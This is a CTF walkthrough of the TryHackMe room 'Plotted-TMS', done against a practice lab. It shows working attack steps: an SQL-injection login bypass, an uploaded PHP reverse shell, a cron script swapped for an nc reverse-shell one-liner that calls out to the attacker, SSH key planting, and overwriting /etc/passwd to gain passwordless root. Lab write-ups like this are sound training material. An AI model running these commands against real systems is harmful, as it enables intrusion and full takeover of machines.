



# Plotted-TMS

## Description

Everything here is plotted!

Happy Hunting!

Tip: Enumeration is key!

Room link: https://tryhackme.com/room/plottedtms

**Note:** All the hashes, passwords, and flags are redacted, so you can experience doing this challenge yourself! <3

## Initial Scan

As always starting with a full port Nmap scan. The scan reveals three open ports:

* 22 ssh
* 80 http
* 445 http

~~~
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a3:6a:9c:b1:12:60:b2:72:13:09:84:cc:38:73:44:4f (RSA)
|   256 b9:3f:84:00:f4:d1:fd:c8:e7:8d:98:03:38:74:a1:4d (ECDSA)
|_  256 d0:86:51:60:69:46:b2:e1:39:43:90:97:a6:af:96:93 (ED25519)
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
445/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## Enumeration

Let's start enumerating the web services on ports 80 and 445. They both have the Apache2 default page as their main page, so let's start running a directory brute force on both of them.

### Port 80

After enumerating the web service on port 80, I can confidently say that this port is a boring joke. Let me go ahead and start with the files on this port. I ran `gobuster` on it and found the following pages:

~~~
└─$ gobuster dir -w /usr/share/dirb/wordlists/common.txt -u http://$IP:80/ -x php,js,html,txt,zip,conf

[SNIP]

/admin             (Status: 301) [Size: 312] [--> http://10.10.248.15/admin/]
/index.html        (Status: 200) [Size: 10918]
/passwd            (Status: 200) [Size: 25]
/server-status     (Status: 403) [Size: 277]
/shadow            (Status: 200) [Size: 25]
~~~

Both `/shadow` and `passwd` return the same base64 string that decodes to the following message:

~~~
└─$ curl -s "http://$IP:80/shadow" | base64 -d
not this easy :D

└─$ curl -s "http://$IP:80/passwd" | base64 -d
not this easy :D 
~~~

Ok. Let's see what `/admin` has to offer. It's directory with listing enabled:

~~~
└─$ curl -s "http://$IP:80/admin/" | html2text
****** Index of /admin ******
[[ICO]]       Name             Last_modified    Size Description
===========================================================================
[[PARENTDIR]] Parent_Directory                    -  
[[   ]]       id_rsa           2021-10-28 10:43   81  
===========================================================================
     Apache/2.4.41 (Ubuntu) Server at 10.10.248.15 Port 80
~~~

This directory contains a file named `id_rsa`. Looks promising. Right!? NO. Browsing to this file also returns a base64 string that decodes to the following message:

~~~
└─$ curl -s "http://$IP:80/admin/id_rsa" | base64 -d
Trust me it is not this easy..now get back to enumeration :D 
~~~

There is nothing else to check, so let's move on to the other web service on port 445.

### Port 445

I also ran `gobuster` on this port and found the followings:

~~~
└─$ gobuster dir -w /usr/share/dirb/wordlists/common.txt -u http://$IP:445/ -x php,js,html,txt,zip,conf

[SNIP]

/index.html        (Status: 200) [Size: 10918]
/management        (Status: 301) [Size: 322] [--> http://10.10.248.15:445/management/]
/server-status     (Status: 403) [Size: 278]
~~~

We only found one page by the name of `/management`. Browsing to this address shows the following page:

So now we know that the CMS is called "Traffic Offense Management System". There are a sh!t ton of exploits for this CMS, but I decided to exploit it myself.

So the big button in the middle of the page that says "Login", takes us to `/management/admin/login.php` which is a login page:

## Bypassing the login form

I started trying some default creds on the login page, but none worked. I decided to test some SQLI (SQL Injection) and I went through with my first try (lol).

By entering `' or 1=1-- -` as username and submitting, I went through:

After we login, we get redirected to `/management/admin` which is the admin's panel:

## Reverse Shell

After I looked around the admin's panel I found a possible way to gain a reverse shell. First head to `/management/admin/?page=user` which I have shown where I've found it from. You have to click on the dropdown menu on the top right hand corner and click on "My Account":

After going there, you should see the following page, which allows us to change the account's information:

As you can see, we can upload a file for our avatar, so I decided to test if there is a file type filter set for it, and there is none, so we can upload a php reverse shell, which you can get [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Just change the IP and port in this file and it's ready to use.

After you prepared the reverse shell, click on "Browse" and choose your reverse shell. Open a listener (`rlwrap nc -lvnp 4444`) and click on "Update" and you should receive a shell on your listener as `www-data`.

The shell gets called immediately, because when the page is refreshed, the avatar is called too.

The first thing I did with the shell, was spawning a TTY shell using a python one-liner:

~~~
python3 -c "import pty;pty.spawn('/bin/bash')"
~~~

On the listener:

~~~
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.**.**] from (UNKNOWN) [10.10.248.15] 38062
Linux plotted 5.4.0-89-generic #100-Ubuntu SMP Fri Sep 24 14:50:10 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 16:16:53 up  1:39,  0 users,  load average: 0.00, 0.27, 0.71
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ which python3
/usr/bin/python3
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@plotted:/$
~~~

## www-data -> plot_admin (lateral move)

Now it's time to escalate. First I listed `/home` to see the users on the machine:

~~~
www-data@plotted:/$ ls -al /home
total 16
drwxr-xr-x  4 root       root       4096 Oct 28 07:56 .
drwxr-xr-x 20 root       root       4096 Oct 25 02:05 ..
drwxr-xr-x  4 plot_admin plot_admin 4096 Oct 28 10:16 plot_admin
drwxr-xr-x  4 ubuntu     ubuntu     4096 Oct 28 10:09 ubuntu
~~~

So we have `plot_admin` and `ubuntu`. By listing the files in `plot_admin`'s home directory, we can see the user flag, so we should probable escalate to this user:

~~~
www-data@plotted:/$ ls -la /home/plot_admin
total 32
drwxr-xr-x  4 plot_admin plot_admin 4096 Oct 28 10:16 .
drwxr-xr-x  4 root       root       4096 Oct 28 07:56 ..
lrwxrwxrwx  1 root       root          9 Oct 28 10:09 .bash_history -> /dev/null
-rw-r--r--  1 plot_admin plot_admin  220 Oct 28 07:56 .bash_logout
-rw-r--r--  1 plot_admin plot_admin 3771 Oct 28 07:56 .bashrc
drwxrwxr-x  3 plot_admin plot_admin 4096 Oct 28 08:34 .local
-rw-r--r--  1 plot_admin plot_admin  807 Oct 28 07:56 .profile
drwxrwx--- 14 plot_admin plot_admin 4096 Oct 28 07:25 tms_backup
-rw-rw----  1 plot_admin plot_admin   33 Oct 28 09:55 user.txt
~~~

I started enumerating the machien manually and found a cronjob from `/etc/crontab`:

~~~
www-data@plotted:/$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * 	* * *	plot_admin /var/www/scripts/backup.sh
#
~~~

So now we know that `/var/www/scripts/backup.sh` is being run every minute by `plot_admin`, so let's work with that. I headed to `/var/www/script` where the bash script is and listed this directory and took a look at its content:

~~~
www-data@plotted:/var/www/scripts$ ls -al
total 12
drwxr-xr-x 2 www-data   www-data   4096 Oct 28 09:10 .
drwxr-xr-x 4 root       root       4096 Oct 28 10:26 ..
-rwxrwxr-- 1 plot_admin plot_admin  141 Oct 28 09:10 backup.sh
www-data@plotted:/var/www/scripts$ cat backup.sh
#!/bin/bash

/usr/bin/rsync -a /var/www/html/management /home/plot_admin/tms_backup
/bin/chmod -R 770 /home/plot_admin/tms_backup/management
~~~

As you can see, we don't have write permission for this file, BUT it is located in web files and we are `www-data`, which means that this is our home directory (you can check /etc/passwd for this).

We can't move this file, but we can remove it. (IRL you should keep a copy of it, so after you're done, you can clear your footprints). So we should replace this file with a reverse shell with the same name.

First let's remove this file, then create a file with the same name with a reverse shell inside, mark it as executable, and finally opne a listener (`rlwrap nc -lvnp 4242`) and wait.

Here's the reverse shell:

~~~bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR IP> 4242 >/tmp/f
~~~

~~~
www-data@plotted:/var/www/scripts$ rm backup.sh
rm: remove write-protected regular file 'backup.sh'? y
www-data@plotted:/var/www/scripts$ echo "rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.**.** 4242 >/tmp/f" > backup.sh
www-data@plotted:/var/www/scripts$ chmod +x backup.sh
~~~

After a little while, you should receive a shell as user `plot_admin` on your listener:

~~~
└─$ rlwrap nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.9.**.**] from (UNKNOWN) [10.10.248.15] 58888
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(plot_admin) gid=1001(plot_admin) groups=1001(plot_admin)
~~~

### Connecting via SSH

Now that we are `plot_admin`, let's prepare everything to connect to the machine via ssh. First we need to make a directory named `.ssh` and then add our public key in `authorized_keys` inside this directory.

If you don't have an SSH key, you can create one using `ssh-keygen`, and copy the content of the file with `.pub` extention (which is called the public key) inside the `authorized_keys` and use your private key to connect to the machine.

Let's add our public key now:

~~~
$ mkdir .ssh
$ echo "<PUT YOUR PUBLIC KEY HERE>" > .ssh/authorized_keys
~~~

Now we can use our private key to connect to the machine via ssh as user `plot_admin`:

~~~
└─$ ssh -i ~/.ssh/id_rsa plot_admin@$IP           

[SNIP]

plot_admin@plotted:~$ id
uid=1001(plot_admin) gid=1001(plot_admin) groups=1001(plot_admin)
~~~

## User Flag

Now let's read the user flag located in our home directory. We could read it earlier but it is what it is:

~~~
plot_admin@plotted:~$ ls
tms_backup  user.txt
plot_admin@plotted:~$ cat user.txt 
779275[REDACTED]1fbadb
~~~

User flag: `779275[REDACTED]1fbadb`

## Going root

Now we need to gain root access to obtain the root flag. After spending a lot of time on enumerating the machine, I finally found a possible way to go root. When we check `/etc/doas.conf` which is the config file for `doas` command, we can see that we can run `openssl` as root:

~~~
plot_admin@plotted:~$ cat /etc/doas.conf
permit nopass plot_admin as root cmd openssl
~~~

`doas` is a program to execute commands as another user and it's basicly the same thing as `sudo`, but it is much smaller in terms of size.

After checking [GTFOBins](https://gtfobins.github.io/), I found a way to escalate my privilege to root (check the sudo part), but I couldn't make it work. It is also possible to read the root flag right now, but where is the fun in that. : )

## Exploit

So I have a plan. There is a way to write files using this permission, so I can modify `/etc/passwd` and remove the `x` in root's line, which means that this user doesn't have any password and we can easily switch to root.

The only thing to do before that, is to keep a copy of `/etc/passwd`, so we can change things back to normal after we are done, because when we modify the file using `openssl`, it would be a pain in back to write all the lines of this file.

Let's start then. First I copied `/etc/passwd` to `/tmp`:

~~~
plot_admin@plotted:~$ cp /etc/passwd /tmp
~~~

Next we will `echo` the root line from `/etc/passwd` and remove the `x` from it and then pipe it to `openssl` to output the content to `/etc/passwd`:

~~~
plot_admin@plotted:~$ echo "root::0:0:root:/root:/bin/bash" | doas openssl enc -out /etc/passwd
~~~

Now we can run `su` and switch to root with no password:

~~~
plot_admin@plotted:~$ su
root@plotted:/home/plot_admin# id
uid=0(root) gid=0(root) groups=0(root)
~~~

Let's fix things now. We should move `/tmp/passwd` to `/etc`, so everything is back to normal and we can confirm that everything worked by reading this file:

~~~
root@plotted:/home/plot_admin# mv /tmp/passwd /etc/
root@plotted:/home/plot_admin# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

[SNIP]

mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
plot_admin:x:1001:1001:,,,:/home/plot_admin:/bin/bash
~~~

Now you can use `passwd` command to set a new password for root, if you want to:

~~~
root@plotted:/home/plot_admin# passwd
New password: 
Retype new password: 
passwd: password updated successfully
~~~

## Root Flag

Now that we are root, we can go ahead and read the root flag in `/root` with pride:

~~~
root@plotted:/home/plot_admin# cd
root@plotted:~# ls
root.txt  snap
root@plotted:~# cat root.txt 
Congratulations on completing this room!

53f85e[REDACTED]9bdcab

Hope you enjoyed the journey!

Do let me know if you have any ideas/suggestions for future rooms.
-sa.infinity8888
~~~

Root flag: `53f85e[REDACTED]9bdcab`

## D0N3! ; )

Thanks to the creator(s) of this room!

Hope you had fun and learned something new.

Have a g00d 0ne! : )
